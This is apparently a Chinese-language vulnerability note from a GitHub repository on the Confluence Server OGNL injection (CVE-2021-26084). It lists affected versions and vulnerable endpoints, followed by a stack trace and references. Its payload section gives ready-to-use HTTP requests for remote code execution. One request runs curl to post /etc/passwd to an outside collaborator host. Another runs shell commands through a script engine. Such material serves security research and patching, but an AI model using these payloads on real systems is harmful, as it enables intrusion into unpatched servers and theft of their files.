






### 影响版本
Confluence Server/Data Center
```
    All 4.x.x versions
    All 5.x.x versions
    All 6.0.x versions
    All 6.1.x versions
    All 6.2.x versions
    All 6.3.x versions
    All 6.4.x versions
    All 6.5.x versions
    All 6.6.x versions 
    All 6.7.x versions
    All 6.8.x versions
    All 6.9.x versions
    All 6.10.x versions
    All 6.11.x versions
    All 6.12.x versions 
    All 6.13.x versions before 6.13.23
    All 6.14.x versions 
    All 6.15.x versions 
    All 7.0.x versions
    All 7.1.x versions
    All 7.2.x versions
    All 7.3.x versions
    All 7.4.x versions before 7.4.11
    All 7.5.x versions
    All 7.6.x versions 
    All 7.7.x versions
    All 7.8.x versions
    All 7.9.x versions
    All 7.10.x versions
    All 7.11.x versions before 7.11.6
    All 7.12.x versions before 7.12.5
```

### url
```
URI Path                                   Vulnerable Parameters 
--------------------------------------------------------------------- 
/users/darkfeatures.action                 featureKey 
/users/enabledarkfeature.action            featureKey 
/users/disabledarkfeature.action           featureKey 
/login.action                              token 
/dologin.action                            token 
/signup.action                             token 
/dosignup.action                           token 
/pages/createpage-entervariables.action    queryString, linkCreation 
/pages/doenterpagevariables.action         queryString 
/pages/createpage.action                   queryString 
/pages/createpage-choosetemplate.action    queryString 
/pages/docreatepagefromtemplate.action     queryString 
/pages/docreatepage.action                 queryString 
/pages/createblogpost.action               queryString 
/pages/docreateblogpost.action.            queryString 
/pages/copypage.action                     queryString 
/pages/docopypage.action                   queryString 
/plugins/editor-loader/editor.action       syncRev
```
Ref: https://www.zerodayinitiative.com/blog/2021/9/21/cve-2021-26084-details-on-the-recently-exploited-atlassian-confluence-ognl-injection-bug
其中除两个重要的之外，其他都是需要登录的。需要登录的接口对应的CVE编号是 [CVE-2021-39114](https://jira.atlassian.com/browse/CONFSERVER-68844)


### Payload

```http
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 127.0.0.1:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 215

queryString=lalalala%5cu0027,(linkCreation)(0xd0ff90),%5cu0027lalalala&linkCreation=@java.lang.Runtime@getRuntime().exec('curl -X POST --data-binary @/etc/passwd x.burpcollaborator.net')
```

```http
queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027
```


### Demo








### Trace
```java
...
               at com.opensymphony.webwork.util.SafeExpressionUtil.isSafeExpression(SafeExpressionUtil.java:67)
                at com.opensymphony.webwork.util.OgnlValueFinder$Factory$1.findValue(OgnlValueFinder.java:29)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findValue(WebWorkTagSupport.java:74)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findString(WebWorkTagSupport.java:59)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.evaluateParams(AbstractUITag.java:285)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:213)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at org.apache.velocity.runtime.parser.node.ASTIfStatement.render(ASTIfStatement.java:87)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.views.jsp.ui.template.VelocityTemplateEngine.renderTemplate(VelocityTemplateEngine.java:52)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.mergeTemplate(AbstractUITag.java:427)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:216)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.runtime.directive.Parse.render(Parse.java:263)
                at com.atlassian.confluence.setup.velocity.ProfilingParseDirective.render(ProfilingParseDirective.java:21)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.getRenderedTagBody(ApplyDecoratorDirective.java:179)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.render(ApplyDecoratorDirective.java:154)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.dispatcher.VelocityResult.doExecute(VelocityResult.java:91)
                at com.atlassian.xwork.results.ProfiledVelocityResult.doExecute(ProfiledVelocityResult.java:18)
                at com.atlassian.confluence.setup.webwork.EncodingVelocityResult.doExecute(EncodingVelocityResult.java:43)
                at com.opensymphony.webwork.dispatcher.WebWorkResultSupport.execute(WebWorkResultSupport.java:116)
                at com.opensymphony.xwork.DefaultActionInvocation.executeResult(DefaultActionInvocation.java:263)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:187)
                at com.opensymphony.xwork.interceptor.AroundInterceptor.intercept(AroundInterceptor.java:35)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:165)
...
```


### Ref
 - https://github.com/projectdiscovery/nuclei-templates/commit/3a303530427f974dadc69471d3946ace0a776310
 - https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
 - https://github.com/dorkerdevil/CVE-2021-26084/blob/main/CVE-2021-26084.py
 - https://securitylab.github.com/research/bean-validation-RCE/
 - https://twitter.com/pwntester/status/1433888159083995136
 - https://twitter.com/iamnoooob/status/1431739398782025728
 - [[Atlassian Confluence CVE-2021–26084]::: The other side of bug report!](https://tradahacking.vn/atlassian-confluence-cve-2021-26084-the-other-side-of-bug-bounty-45ed19c814f6)
 - https://bugcrowd.com/disclosures/f76873aa-7acc-4f39-b94d-f066317e7c41/rce-on-confluence-data-center-via-ognl-injection
 - https://www.atlassian.com/blog/rebelutionary/misc/TSS-WebWork2.ppt
 - https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html

### 老漏洞
 - [<= 5.1.4 version OGNL double evaluation in atlassian-xwork](https://confluence.atlassian.com/doc/confluence-security-advisory-2013-08-05-389775711.html)
 - [<= 5.6 version OGNL Double Evaluation Vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2015-01-21-702712783.html)
 - [<= 5.5.1 version ClassLoader Manipulation vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2014-05-21-597557675.html)

### 附录
#### 前置知识
> WebWork 2是OpenSymphony的一个MVC framework，基于XWork。

> WebWork 2后来被叫做Apache Struts2。


